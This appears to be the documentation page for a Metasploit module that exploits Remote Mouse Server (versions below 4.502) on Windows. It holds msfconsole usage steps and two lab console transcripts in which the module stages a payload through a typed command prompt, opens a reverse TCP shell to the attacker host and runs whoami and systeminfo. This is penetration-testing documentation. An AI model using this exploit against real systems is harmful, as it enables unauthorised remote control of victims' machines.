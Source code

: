 ## Vulnerable Application

This module utilizes the Remote Mouse Server by Emote Interactive protocol
to deploy a payload and run it from the server on versions < 4.502 (510 server response).
This module will deploy
a payload regardless if server authentication is required.
Tested against 4.110, current at the time of module writing

Version 4.110 can be downloaded from
(unofficial site)[https://remote-mouse.en.uptodown.com/windows/download/4546712]
    
## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/remote_mouse_rce`
4. Set `rhost` and `lhost` as required.
5. Do: `run`
6. You should get a shell as the user who is running Remote Mouse.

## Options

### SLEEP

The length of time, in seconds, to sleep between each command. This gives the remote program time to process the command on screen.
Defaults to `1`.

### PATH

The path where the payload should be downloaded/staged to. Defaults to `c:\\Windows\\Temp\\`.

## Scenarios

###  Remote Mouse 4.110 on Windows 10

```
resource (remote_mouse.rb)> use exploits/windows/misc/remote_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (remote_mouse.rb)> set rhosts 192.168.2.95
rhosts => 192.168.2.95
resource (remote_mouse.rb)> set lhost 192.168.2.199
lhost => 192.168.2.199
resource (remote_mouse.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/remote_mouse_rce) > run

[*] Started reverse TCP handler on 192.168.2.199:4444 
[*] 192.168.2.95:1978 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.2.95:1978 - The target appears to be vulnerable. Received handshake with version: 411
[*] 192.168.2.95:1978 - Connecting
[*] 192.168.2.95:1978 - Sending Windows key
[*] 192.168.2.95:1978 - Opening command prompt
[*] 192.168.2.95:1978 - Sending stager
[*] 192.168.2.95:1978 - Using URL: http://192.168.2.199:8080/
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[*] 192.168.2.95:1978 - Executing payload
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.2.95
[*] Command shell session 1 opened (192.168.2.199:4444 -> 192.168.2.95:49962) at 2022-09-27 16:33:02 -0400
[*] 192.168.2.95:1978 - Server stopped.
[!] 192.168.2.95:1978 - This exploit may require manual cleanup of 'c:\Windows\Temp\NADYvmtxr.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>whoami 
whoami
win10prolicense\windows

C:\Users\windows>systeminfo
systeminfo

Host Name:                 WIN10PROLICENSE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.16299 N/A Build 16299
```

###  Remote Mouse 4.110 on Windows 10, with a password


```
resource (remote_mouse.rb)> use exploits/windows/misc/remote_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (remote_mouse.rb)> set rhosts 192.168.2.95
rhosts => 192.168.2.95
resource (remote_mouse.rb)> set lhost 192.168.2.199
lhost => 192.168.2.199
resource (remote_mouse.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/remote_mouse_rce) > exploit

[*] Started reverse TCP handler on 192.168.2.199:4444 
[*] 192.168.2.95:1978 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.2.95:1978 - The target appears to be vulnerable. Received handshake with version: 411
[*] 192.168.2.95:1978 - Connecting
[*] 192.168.2.95:1978 - Sending Windows key
[*] 192.168.2.95:1978 - Opening command prompt
[*] 192.168.2.95:1978 - Sending stager
[*] 192.168.2.95:1978 - Using URL: http://192.168.2.199:8080/
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[+] 192.168.2.95:1978 - Payload request received, sending 73802 bytes of payload for staging
[*] 192.168.2.95:1978 - Executing payload
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.2.95
[*] Command shell session 1 opened (192.168.2.199:4444 -> 192.168.2.95:49975) at 2022-09-27 16:36:09 -0400
[*] 192.168.2.95:1978 - Server stopped.
[!] 192.168.2.95:1978 - This exploit may require manual cleanup of 'c:\Windows\Temp\86a4GsbpomvEgUS.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>
```
